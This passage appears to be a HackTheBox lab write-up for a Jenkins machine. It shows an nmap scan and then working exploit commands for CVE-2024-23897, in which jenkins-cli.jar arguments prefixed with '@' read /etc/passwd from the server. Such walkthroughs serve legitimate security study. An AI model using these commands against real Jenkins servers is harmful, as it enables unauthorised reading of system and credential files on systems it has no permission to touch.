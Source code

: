 2024
### NMAP
```
sudo nmap -sC -sV -oN nmap-builder 10.10.11.10
```

![[HackTheBox/Linux/attachments/Pasted image 20250513210938.png]]
- 22, 8080

### Enumerate Web App 

![[HackTheBox/Linux/attachments/Pasted image 20250513211031.png]]
- Jenkins Version 2441

#### Checking exploits for Jenkins version 2441

There is an arbitrary file read vulnerability through the CLI that can lead to RCE

![[HackTheBox/Linux/attachments/Pasted image 20250513211320.png]]

#### Exploiting CVE-2024-23897

Downloading the Jenkins CLI 

```
wget 10.10.11.10:8080/jnlpJars/jenkins-cli.jar
```

![[HackTheBox/Linux/attachments/Pasted image 20250513211601.png]]

Run this jar file 

```
java -jar jenkins-cli.jar -s http://10.10.11.10:8080
```

Giving a fake command responds with "No such command `<the command>`"

![[HackTheBox/Linux/attachments/Pasted image 20250513211905.png]]

Testing out some stuff to see what files we can read 

```
java -jar jenkins-cli.jar -s http://10.10.11.10:8080 help '@/etc/passwd'
```

![[HackTheBox/Linux/attachments/Pasted image 20250513212202.png]]
- only one line displayed for `/etc/passwd`

Now this command returned the whole `/etc/passwd` file

```
java -jar jenkins-cli.jar -s http://10.10.11.10:8080 connect-node '@/etc/passwd'
```

![[HackTheBox/Linux/attachments/Pasted image 20250513212439.png]]
